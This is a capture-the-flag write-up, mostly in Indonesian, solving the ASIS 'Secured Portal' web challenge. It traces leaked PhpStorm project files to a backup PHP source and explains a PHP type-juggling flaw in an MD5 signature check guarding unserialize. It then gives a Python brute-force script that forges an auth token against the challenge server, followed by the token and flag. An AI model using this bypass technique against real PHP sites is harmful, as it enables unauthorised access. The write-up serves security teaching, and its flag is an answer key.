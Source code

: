 # Secured Portal

```
Points: 61
Solves: 58
Category: Web, Warm-up
Description: I really needed to do a maintenance, so I changed the portal to maintenance mode which nobody can login. By the way I know it's dangerous to code with IDE in server-side but I really obey security instructions.

http://46.101.96.182/
```
![Home](home.png)

## English
TODO

## Bahasa Indonesia

### Information Gathering

Web yang diberikan terlihat hanya web dengan halaman statik. Terdapat file CSS dan JavaSript seperti biasanya. Akan tetapi, jika kita baca deskripsi soal, terdapat petunjuk bahwa pembuat soal memakai IDE pada server. IDE apakah itu?

Jika kita baca file [function.js](function.js) yang ada di source htmlnya, ada petunjuk yang diberikan, yaitu `* coded via PhpStorm :)`. Dengan googling, kita dapat mengetahui [PhpStorm membuat beberapa file](https://intellij-support.jetbrains.com/hc/en-us/articles/206544839).

Ternyata memang ada beberapa file yang terletak di folder `/.idea`. File yang penting adalah [workspace.xml](workspace.xml), karena di situ terdapat petunjuk selanjutnya, yaitu `"$PROJECT_DIR$/backup/panel.class.php.bk"`. Dan benar saja, kita dapat mendownload file [panel.class.php.bk](panel.class.php.bk) dan melihat source codenya.

### Web Vulnerability

Kelemahan web tersebut terletak pada fungsi `__construct` berikut.

```php
<?php
...
/**
 * checking authentication string
 *
 * @param string object
 */
function __construct($db){
  $this->__db = $db;
  $sessionString = null;

  /**
   * gathering authentication string by auth parameter in HTTP request
   */
  if(array_key_exists('auth', $_GET))
    $sessionString = $_GET['auth'];

  if(strlen($sessionString) > 32){
    $signature = substr($sessionString, -32);
    $payload = base64_decode(substr($sessionString, 0, -32));

  /**
   * real signature calculation based on the key
   */
  $realSign = md5($payload.$this->__sessionKey);

  /**
   * making it impossible to login, if the site is under maintenance,
   */
  if(__MAINTENANCE__===true)
    $realSign = substr($realSign, 0, 6);

  /**
   * checking signature, prevent to data forgery by user
   */
  if($realSign == $signature){
    $this->data = unserialize($payload);

    if(is_array($this->data)){
    /**
     * checking login status
     */
      if($this->data['logged']===true){
        $this->__auth = true;
      }
    }
  }
}
...
?>
```

Tujuan kita adalah membuat `$this->__auth = true;`. Untuk itu, parameter `GET` dari `auth` harus merupakan array yang mempunyai key `logged` bernilai `true`. Sayangnya, terdapat mekanisme *signature* yang disematkan pada 32 karakter terakhir payload, dalam kasus ini MD5. Akibatnya kita tidak bisa membuat payload dengan bebas karena `$this->__sessionKey` tidak diketahui.

Untungnya, type juggling pada PHP seperti `if($realSign == $signature){`, dapat kita eksploitasi seperti pada [tulisan berikut](https://foxglovesecurity.com/2017/02/07/type-juggling-and-php-object-injection-and-sqli-oh-my/). *TL;DR*, pada PHP, sebuah string `s` yang memenuhi regex `^0e\d+$`, evaluasi `s == 0 && s == "000000"` akan bernilai `true`. Hal ini disebabkan `0e` dan semua digit di belakangnya akan diparse menjadi tipe float bernilai `0.0`. Terlebih lagi, pada maintenance mode, hasil MD5 hanya diambil 6 karakter pertama saja. Hal ini mempermudah untuk mencari hash yang memenuhi kriteria di atas.

Dari hal-hal tersebut, dapat dibuat solusi seperti ini:
1. Buat payload yang merupakan string dari fungsi `serialize` pada PHP, kita sebut `p`.
2. `p` harus merupakan array, dan mengandung key bernama `logged` dan bernilai `true`.
3. Nilai MD5 dari `p` 6 karakter pertamanya merupakan string yang memenuhi regex `^0e\d+$`.
4. Hitung `base64` dari `p`, kita sebut `b`.
5. Tambahkan nilai signature palsu `00000000000000000000000000000000` pada akhir `b`.
6. Kirim `b` sebagai parameter `auth`.

Untuk membuat string hasil fungsi `serialize` dapat dibaca [di sini](http://php.net/manual/en/function.serialize.php#66147). Karena kita tidak dapat menghitung nilai MD5 dari `s` secara lokal (`$this->__sessionKey` tidak diketahui), kita harus membuat script untuk melakukan *bruteforce* secara *remote*. Agar nilai MD5-nya berubah, tambahkan saja karakter random pada akhir `p`. PHP akan mengabaikan karakter random tersebut dan tetap menganggapnya valid.

Kode python untuk solusi seperti berikut.

```python
#!/usr/bin/env python3
import hashlib
import itertools
from base64 import b64encode
import string
import requests

fake_signature = "0"*32
fake_signature = fake_signature.encode()

charset = string.ascii_letters
for i in range(20):
  for p in itertools.product(charset, repeat=i):
    payload = 'a:1:{s:6:"logged";b:1;}%s' % ("".join(p))
    payload = payload.encode()
    auth = b64encode(payload) + fake_signature
    auth = auth.decode('utf8')
    url = 'http://46.101.96.182/panel/index?auth=%s' % (auth)
    r = requests.get(url)
    if "login required" not in r.text:
      print(auth)
      quit()
```

Setelah menunggu beberapa saat, script mendapatkan `auth` yaitu
`YToxOntzOjY6ImxvZ2dlZCI7YjoxO31hVFY=00000000000000000000000000000000`. Gunakan `auth` untuk mendapatkan flag dengan mengakses http://46.101.96.182/panel/flag?auth=YToxOntzOjY6ImxvZ2dlZCI7YjoxO31hVFY=00000000000000000000000000000000.

Flag: `ASIS{An0th3R_Tiny_Obj3c7_Inject1oN_L0L!!!}`
